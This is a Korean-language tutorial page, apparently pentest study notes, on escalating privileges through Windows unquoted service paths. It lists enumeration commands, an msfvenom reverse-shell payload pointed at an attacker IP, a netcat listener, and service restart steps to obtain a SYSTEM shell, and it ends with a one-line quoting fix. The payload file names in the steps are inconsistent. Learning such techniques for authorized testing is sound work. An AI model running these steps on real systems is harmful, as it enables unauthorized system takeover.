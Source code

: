 ```yaml
---
layout: page
title: Unquoted_Service_Path
description: >
  This chapter covers the basics of content creation with Hydejack.
hide_description: true
sitemap: false
---
```


0. this unordered seed list will be replaced by toc as unordered list
{:toc}


# 취약한 서비스 경로 (Unquoted Service Path) 공격 가이드

Unquoted Service Path는 Windows 서비스의 실행 파일 경로가 큰따옴표("")로 묶여 있지 않아 발생하는 고전적인 권한 상승 취약점입니다. 서비스가 높은 권한(예: `NT AUTHORITY\SYSTEM`)으로 실행될 경우, 이 취약점을 통해 시스템을 장악할 수 있습니다.

### **취약점 원리**

만약 서비스의 실행 경로가 `C:\Program Files\Some Service\service.exe`와 같이 공백을 포함하고 따옴표로 묶여있지 않다면, Windows는 이 경로를 순차적으로 해석하려 시도합니다.

1.  `C:\Program.exe`를 실행 시도
2.  (실패 시) `C:\Program Files\Some.exe`를 실행 시도
3.  (실패 시) `C:\Program Files\Some Service\service.exe`를 실행 시도

만약 공격자가 `C:\` 경로에 `Program.exe`라는 이름의 악성 파일을 업로드할 수 있다면, 서비스가 시작될 때 Windows는 원래의 `service.exe` 대신 공격자의 악성 파일을 `SYSTEM` 권한으로 실행하게 됩니다.

---

### **1. 취약점 식별**

- **목표:** 따옴표로 묶여있지 않고, 경로에 공백이 포함된 서비스를 찾습니다.

```powershell
. .\PowerView.ps1;Invoke-AllChecks
winPEASany.exe

# C:\Windows\ 경로를 제외하고, 경로에 따옴표(")가 없는 서비스를 검색
wmic service get name,pathname,displayname,startmode | findstr /i /v "C:\Windows\" | findstr /i /v """
```

> `winPEAS`나 `PowerUp.ps1` 같은 자동화된 스크립트도 이 취약점을 자동으로 찾아줍니다.

---

### **2. 권한 확인**

- **목표:** 식별된 취약한 경로의 상위 폴더에 현재 사용자가 쓰기 권한을 가지고 있는지 확인합니다.

```powershell
sc.exe qc unquotedsvc

# 예: C:\Program Files\Unquoted Path Service\ 경로의 권한 확인
icacls "C:\Program Files\Unquoted Path Service"

# Sysinternals 도구인 accesschk 사용
.\accesschk64.exe /accepteula -uwqd "C:\Program Files\Unquoted Path Service\"

# 서비스 start/stop 권한 있는지 확인
sc.exe start unquotedsvc
sc.exe stop unquotedsvc
```

- **확인 사항:** `Everyone`, `Authenticated Users`, 또는 현재 사용자 그룹(`Users`)에 `(F)`(모든 권한) 또는 `(M)`(수정) 권한이 있는지 확인합니다. 또한, `sc qc <servicename>` 명령어로 해당 서비스를 제어할 권한이 있는지도 확인합니다.

--- 

### **3. 익스플로잇 (Exploitation)**

1.  **리버스 셸 페이로드 생성:**
    - `msfvenom`을 사용하여 `exe` 형식의 리버스 셸 페이로드를 생성합니다. 파일 이름은 Windows가 먼저 실행을 시도할 이름(예: `Program.exe`)으로 지정합니다.
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attacker_ip> LPORT=443 -f exe -o Program.exe
```

2.  **페이로드 업로드:**
    - 생성된 `Program.exe`를 쓰기 권한이 있는 경로(예: `C:\`)에 업로드합니다.
    - 다음으로, 실행 파일을 따옴표로 묶지 않은 경로의 쓰기 가능한 폴더에 넣으세요. Windows는 따옴표로 묶지 않은 컨텍스트에서 데이터 구문 분석을 처리하는 방식 때문에 원래 실행 파일보다 먼저 실행 파일을 읽습니다.
```bash
copy "C:\users\user\jaja\reverse.exe" "C:\Program Files\Unquoted Path Service\Common.exe"
```

3.  **리스너 실행:**
    - 공격자 머신에서 Netcat 리스너를 실행하여 연결을 기다립니다.
```bash
rlwrap nc -lvnp 443
```

4.  **서비스 재시작:**
    - 타겟 시스템에서 서비스를 재시작하여 악성 페이로드가 실행되도록 합니다.
```powershell
sc.exe query unquotedsvc
sc stop <servicename>
sc start <servicename>
```

5.  **권한 상승 성공:**
    - 서비스가 시작되면서 `Program.exe`가 `SYSTEM` 권한으로 실행되고, 공격자의 리스너에 `NT AUTHORITY\SYSTEM` 셸이 연결됩니다.

--- 

### **4. 방어 (Mitigation)**

- **해결책:** 모든 서비스의 실행 파일 경로를 **반드시 큰따옴표("")로 묶어주어야 합니다.**
  ```powershell
  sc config "<servicename>" binpath= "\"C:\Program Files\Some Service\service.exe\""
  ```
